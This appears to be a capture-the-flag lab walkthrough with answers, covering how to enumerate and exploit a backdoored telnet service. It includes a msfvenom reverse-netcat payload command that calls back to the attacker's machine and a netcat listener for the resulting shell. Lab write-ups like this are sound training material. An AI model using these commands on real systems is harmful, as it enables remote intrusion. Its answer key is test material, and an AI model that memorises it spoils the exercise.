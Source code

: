 - Here, we see that by assigning telnet to a non-standard port, it is not part of the common ports list, or top 1000 ports, that nmap scans. It's important to try every angle when enumerating, as the information you gather here will inform your exploitation stage.

	  no answer needed

- Based on the title returned to us, what do we think this port could be used for?

	- `a backdoor`

- Who could it belong to? Gathering possible usernames is an important step in enumeration.

	- `skidy`

- Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits.

	  no answer needed

- Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.

	  no answer needed

- Great! It's an open telnet connection! What welcome message do we receive?

	- `SKIDY'S BACKDOOR.`

- Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

	- `N`

- Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.

	  no answer needed

- This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

	  no answer needed

- Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

	- `Y`

- Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!

	  no answer needed

- What word does the generated payload start with?

	- `msfvenom -p cmd/unix/reverse_netcat lhost=<local_tun0_ip> lport=4444 R`
	- `mkfifo`

- What would the command look like for the listening port we selected in our payload?

	- `nc -lvp 4444`

- Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!
